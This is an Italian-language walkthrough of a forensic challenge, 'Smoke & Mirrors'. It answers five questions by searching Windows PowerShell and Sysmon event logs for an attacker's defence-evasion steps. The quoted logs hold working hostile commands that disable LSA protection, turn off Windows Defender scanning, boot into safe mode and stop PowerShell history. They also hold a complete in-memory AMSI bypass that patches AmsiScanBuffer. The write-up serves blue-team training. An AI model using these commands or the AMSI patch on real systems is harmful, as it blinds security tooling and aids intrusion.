 ```yaml
---
title: "Operation Blackout 2025: Smoke & Mirrors Walkthrough"
description: "In Smoke & Mirrors, i giocatori analizzano i log di evento e gli artefatti forensi forniti per scoprire come l'attaccante ha disabilitato o alterato le funzionalità di sicurezza. Devono identificare gli strumenti, i comandi o gli script utilizzati per ridurre la visibilità e ricostruire i metodi impiegati dall'attaccante per operare inosservato."
author: dua2z3rr
date: 2025-10-18 1:00:00
categories: Sherlocks
tags: []
---
```


## Introduzione

### Domande

1. L'attaccante ha disabilitato la protezione LSA sull'host compromesso modificando una chiave di registro. Qual è il percorso completo di quella chiave di registro?
2. Quale comando PowerShell ha eseguito per primo l'attaccante per disabilitare Windows Defender?
3. L'attaccante ha caricato una patch AMSI scritta in PowerShell. Quale funzione nella DLL viene patchata dallo script per disabilitare efficacemente AMSI?
4. Quale comando ha usato l'attaccante per riavviare la macchina in Modalità Provvisoria?
5. Quale comando PowerShell ha usato l'attaccante per disabilitare la registrazione della cronologia dei comandi di PowerShell?

### Overview

Per completare questo sherlock, dovremmo controllare simultaneamente 3 file **.evxt**:
1. Microsoft-Windows-Powershell
2. Microsoft-Windows-Powershell-Operational
3. Microsoft-Windows-Sysmon-Operational

## Risposte

### L'attaccante ha disabilitato la protezione LSA sull'host compromesso modificando una chiave di registro. Qual è il percorso completo di quella chiave di registro?

Sapendo che l'attaccante ha modificato una chiave di registro con la protezione LSA, possiamo  filtrare per comandi come  `reg add`. Otterremo questo come primo risultato:

```xml
- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="Microsoft-Windows-PowerShell" Guid="{a0c1853b-5c40-4b15-8766-3cf1c58f985a}" /> 
  <EventID>4104</EventID> 
  <Version>1</Version> 
  <Level>5</Level> 
  <Task>2</Task> 
  <Opcode>15</Opcode> 
  <Keywords>0x0</Keywords> 
  <TimeCreated SystemTime="2025-04-10T06:29:16.6206307Z" /> 
  <EventRecordID>3365</EventRecordID> 
  <Correlation ActivityID="{d72fe4f3-a9dd-0001-c108-31d7dda9db01}" /> 
  <Execution ProcessID="9808" ThreadID="4644" /> 
  <Channel>Microsoft-Windows-PowerShell/Operational</Channel> 
  <Computer>DESKTOP-M3AKJSD</Computer> 
  <Security UserID="S-1-5-21-3999086100-426973801-4203759309-1002" /> 
  </System>
- <EventData>
  <Data Name="MessageNumber">1</Data> 
  <Data Name="MessageTotal">1</Data> 
  <Data Name="ScriptBlockText">reg add HKLM\SYSTEM\CurrentControlSet\Control\LSA /v RunAsPPL /t REG_DWORD /d 0 /f</Data> 
  <Data Name="ScriptBlockId">fe2e75fb-6d30-4b45-a3dc-710e3092814a</Data> 
  <Data Name="Path" /> 
  </EventData>
  </Event>
```

Risposta: `HKLM\SYSTEM\CurrentControlSet\Control\LSA`

### Quale comando PowerShell ha eseguito per primo l'attaccante per disabilitare Windows Defender?

Se vogliamo disabilitare **Windows Defender**, lo si fa comunemente con il comando `Set-MpPreference`. Cercando questo comando troviamo questo log:

```xml
- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="Microsoft-Windows-PowerShell" Guid="{a0c1853b-5c40-4b15-8766-3cf1c58f985a}" /> 
  <EventID>4104</EventID> 
  <Version>1</Version> 
  <Level>5</Level> 
  <Task>2</Task> 
  <Opcode>15</Opcode> 
  <Keywords>0x0</Keywords> 
  <TimeCreated SystemTime="2025-04-10T06:31:32.8678260Z" /> 
  <EventRecordID>3466</EventRecordID> 
  <Correlation ActivityID="{d72fe4f3-a9dd-0001-5d27-31d7dda9db01}" /> 
  <Execution ProcessID="9808" ThreadID="4644" /> 
  <Channel>Microsoft-Windows-PowerShell/Operational</Channel> 
  <Computer>DESKTOP-M3AKJSD</Computer> 
  <Security UserID="S-1-5-21-3999086100-426973801-4203759309-1002" /> 
  </System>
- <EventData>
  <Data Name="MessageNumber">1</Data> 
  <Data Name="MessageTotal">1</Data> 
  <Data Name="ScriptBlockText">Set-MpPreference -DisableIOAVProtection $true -DisableEmailScanning $true -DisableBlockAtFirstSeen $true</Data> 
  <Data Name="ScriptBlockId">db55fc25-b6e7-4c04-bf27-37c1c540870a</Data> 
  <Data Name="Path" /> 
  </EventData>
  </Event>
```

Risposta: `Set-MpPreference -DisableIOAVProtection $true -DisableEmailScanning $true -DisableBlockAtFirstSeen $true`

### L'attaccante ha caricato una patch AMSI scritta in PowerShell. Quale funzione nella DLL viene patchata dallo script per disabilitare efficacemente AMSI?

Cercando `.dll` nei file troviamo questo log:

```xml
- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="PowerShell" /> 
  <EventID Qualifiers="0">800</EventID> 
  <Version>0</Version> 
  <Level>4</Level> 
  <Task>8</Task> 
  <Opcode>0</Opcode> 
  <Keywords>0x80000000000000</Keywords> 
  <TimeCreated SystemTime="2025-04-10T06:37:50.6898884Z" /> 
  <EventRecordID>702</EventRecordID> 
  <Correlation /> 
  <Execution ProcessID="9808" ThreadID="0" /> 
  <Channel>Windows PowerShell</Channel> 
  <Computer>DESKTOP-M3AKJSD</Computer> 
  <Security /> 
  </System>
- <EventData>
  <Data>Add-Type -TypeDefinition $k</Data> 
  <Data>DetailSequence=1 DetailTotal=1 SequenceNumber=213 UserId=DESKTOP-M3AKJSD\User HostName=ConsoleHost HostVersion=5.1.26100.3624 HostId=06070939-645a-4cb4-bb35-feff3e76ad09 HostApplication=C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe EngineVersion=5.1.26100.3624 RunspaceId=62516b95-d457-41c9-aa13-31b963bcf8bb PipelineId=55 ScriptName= CommandLine= Add-Type -TypeDefinition $k</Data> 
  <Data>CommandInvocation(Add-Type): "Add-Type" ParameterBinding(Add-Type): name="TypeDefinition"; value="using System; using System.Runtime.InteropServices; public class P { [DllImport("kernel32.dll")] public static extern IntPtr GetProcAddress(IntPtr hModule, string procName); [DllImport("kernel32.dll")] public static extern IntPtr GetModuleHandle(string lpModuleName); [DllImport("kernel32.dll")] public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect); public static bool Patch() { IntPtr h = GetModuleHandle("a" + "m" + "s" + "i" + ".dll"); if (h == IntPtr.Zero) return false; IntPtr a = GetProcAddress(h, "A" + "m" + "s" + "i" + "S" + "c" + "a" + "n" + "B" + "u" + "f" + "f" + "e" + "r"); if (a == IntPtr.Zero) return false; UInt32 oldProtect; if (!VirtualProtect(a, (UIntPtr)5, 0x40, out oldProtect)) return false; byte[] patch = { 0x31, 0xC0, 0xC3 }; Marshal.Copy(patch, 0, a, patch.Length); return VirtualProtect(a, (UIntPtr)5, oldProtect, out oldProtect); } }"</Data> 
  </EventData>
  </Event>
```

Risposta: `AmsiScanBuffer`

### Quale comando ha usato l'attaccante per riavviare la macchina in Modalità Provvisoria?

Filtrando la parola safe possiamo trovare questo log contenente la risposta:

```xml
- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="Microsoft-Windows-Sysmon" Guid="{5770385f-c22a-43e0-bf4c-06f5698ffbd9}" /> 
  <EventID>1</EventID> 
  <Version>5</Version> 
  <Level>4</Level> 
  <Task>1</Task> 
  <Opcode>0</Opcode> 
  <Keywords>0x8000000000000000</Keywords> 
  <TimeCreated SystemTime="2025-04-10T06:38:35.4404645Z" /> 
  <EventRecordID>7899</EventRecordID> 
  <Correlation /> 
  <Execution ProcessID="4420" ThreadID="5708" /> 
  <Channel>Microsoft-Windows-Sysmon/Operational</Channel> 
  <Computer>DESKTOP-M3AKJSD</Computer> 
  <Security UserID="S-1-5-18" /> 
  </System>
- <EventData>
  <Data Name="RuleName">-</Data> 
  <Data Name="UtcTime">2025-04-10 06:38:35.426</Data> 
  <Data Name="ProcessGuid">{53c665d1-676b-67f7-9503-000000001700}</Data> 
  <Data Name="ProcessId">2568</Data> 
  <Data Name="Image">C:\Windows\System32\bcdedit.exe</Data> 
  <Data Name="FileVersion">10.0.26100.3624 (WinBuild.160101.0800)</Data> 
  <Data Name="Description">Boot Configuration Data Editor</Data> 
  <Data Name="Product">Microsoft® Windows® Operating System</Data> 
  <Data Name="Company">Microsoft Corporation</Data> 
  <Data Name="OriginalFileName">bcdedit.exe</Data> 
  <Data Name="CommandLine">"C:\WINDOWS\system32\bcdedit.exe" /set safeboot network</Data> 
  <Data Name="CurrentDirectory">C:\WINDOWS\system32\</Data> 
  <Data Name="User">DESKTOP-M3AKJSD\User</Data> 
  <Data Name="LogonGuid">{53c665d1-5fe9-67f7-d656-120000000000}</Data> 
  <Data Name="LogonId">0x1256d6</Data> 
  <Data Name="TerminalSessionId">1</Data> 
  <Data Name="IntegrityLevel">High</Data> 
  <Data Name="Hashes">MD5=707D25EE218FA644009B0460A2E09449,SHA256=3A42FE964FB421BE598FF05B9974FCABB9432DDD336C9DA03D0F2688D942CAC2,IMPHASH=4A19F9C41191A1ADD7867BE6ACCA390A</Data> 
  <Data Name="ParentProcessGuid">{53c665d1-6535-67f7-5603-000000001700}</Data> 
  <Data Name="ParentProcessId">9808</Data> 
  <Data Name="ParentImage">C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe</Data> 
  <Data Name="ParentCommandLine">"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"</Data> 
  <Data Name="ParentUser">DESKTOP-M3AKJSD\User</Data> 
  </EventData>
  </Event>
```

Risposta: `bcdedit.exe /set safeboot network`

### Quale comando PowerShell ha usato l'attaccante per disabilitare la registrazione della cronologia dei comandi di PowerShell?

Cercando online che comando si usa solitamente per disabilitare la cronologia dei comandi su powershell, troviamo `Set-PSReadlineOption -HistorySaveStyle SaveNothing`. Cercandolo sui log troviamo lo stesso comando usato.

```xml
- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="Microsoft-Windows-PowerShell" Guid="{a0c1853b-5c40-4b15-8766-3cf1c58f985a}" /> 
  <EventID>4104</EventID> 
  <Version>1</Version> 
  <Level>5</Level> 
  <Task>2</Task> 
  <Opcode>15</Opcode> 
  <Keywords>0x0</Keywords> 
  <TimeCreated SystemTime="2025-04-10T06:38:43.5490019Z" /> 
  <EventRecordID>3802</EventRecordID> 
  <Correlation ActivityID="{d72fe4f3-a9dd-0003-79d9-30d7dda9db01}" /> 
  <Execution ProcessID="9808" ThreadID="4644" /> 
  <Channel>Microsoft-Windows-PowerShell/Operational</Channel> 
  <Computer>DESKTOP-M3AKJSD</Computer> 
  <Security UserID="S-1-5-21-3999086100-426973801-4203759309-1002" /> 
  </System>
- <EventData>
  <Data Name="MessageNumber">1</Data> 
  <Data Name="MessageTotal">1</Data> 
  <Data Name="ScriptBlockText">Set-PSReadlineOption -HistorySaveStyle SaveNothing</Data> 
  <Data Name="ScriptBlockId">eef9a7e3-fc56-47f7-b44f-2b4e1681d0bc</Data> 
  <Data Name="Path" /> 
  </EventData>
  </Event>
```

Risposta: `Set-PSReadlineOption -HistorySaveStyle SaveNothing`
